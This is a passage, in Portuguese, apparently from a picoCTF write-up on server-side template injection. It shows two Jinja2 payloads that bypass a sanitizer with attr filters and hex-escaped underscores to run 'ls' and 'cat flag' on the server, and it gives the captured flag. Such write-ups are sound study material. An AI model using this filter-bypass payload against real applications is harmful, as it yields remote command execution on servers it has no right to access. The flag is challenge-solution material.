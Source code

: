 Observando esse bloqueio, adotou-se uma versão do payload que utiliza filtros e `attr` para contornar a sanitização (evitando `.` e `_` literais):
`
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
`

Esse payload retornou a listagem de arquivos presentes no diretório, confirmando a possibilidade de executar comandos no servidor:  
<img width="1468" height="756" alt="Captura de Tela 2025-09-23 às 18 02 07" src="https://github.com/user-attachments/assets/566a3357-e215-4c72-8e46-a86b26296804" />

A partir da listagem, foi identificado o arquivo `flag`. Para ler seu conteúdo, foi utilizado:
`
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
`

O envio revelou o conteúdo da flag:  
<img width="1470" height="757" alt="Captura de Tela 2025-09-23 às 18 03 09" src="https://github.com/user-attachments/assets/2e7b47b4-f6e7-458f-bce2-62c0023a7ef6" />

### Flag encontrada

Com isso, foi possível identificar a flag escondida:

**Flag:**  
`picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}`
